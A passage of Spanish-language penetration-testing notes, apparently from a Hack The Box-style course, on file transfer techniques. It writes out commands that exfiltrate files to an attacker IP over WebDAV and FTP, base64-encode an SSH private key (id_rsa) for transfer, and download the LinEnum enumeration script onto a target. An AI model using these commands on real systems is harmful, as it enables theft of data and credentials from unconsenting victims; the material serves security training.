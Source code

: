 ```powershell
copy C:\Users\john\Desktop\SourceCode.zip \\192.168.49.129\DavWWWRoot\
```

## FTP Uploads

Igual que antes, utilizaremos el módulo `pyftpdlib` de [[python]], con la opción `--write`:

```bash
sudo python3 -m pyftpdlib --port 21 --write
```

```powershell
(New-Object Net.WebClient).UploadFile('ftp://192.168.49.128/ftp-hosts', 'C:\Windows\System32\drivers\etc\hosts')
```

En caso de no tener una shell interactiva:

```cmd-session
C:\htb> echo open 192.168.49.128 > ftpcommand.txt
C:\htb> echo USER anonymous >> ftpcommand.txt
C:\htb> echo binary >> ftpcommand.txt
C:\htb> echo PUT c:\windows\system32\drivers\etc\hosts >> ftpcommand.txt
C:\htb> echo bye >> ftpcommand.txt
C:\htb> ftp -v -n -s:ftpcommand.txt
ftp> open 192.168.49.128

Log in with USER and PASS first.


ftp> USER anonymous
ftp> PUT c:\windows\system32\drivers\etc\hosts
ftp> bye
```

# Linux

## Base64

```bash
cat id_rsa |base64 -w 0;echo
```

```bash
echo -n 'LS0tLS1CRUd[...]tLS0tLQo=' | base64 -d > id_rsa
```

## Web Download

Si disponemos de un servicio web, podemos descargar archivos en nuestra máquina de atacante con [[wget]] ó [[curl]].

```bash
curl -o /tmp/LinEnum.sh https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh
```
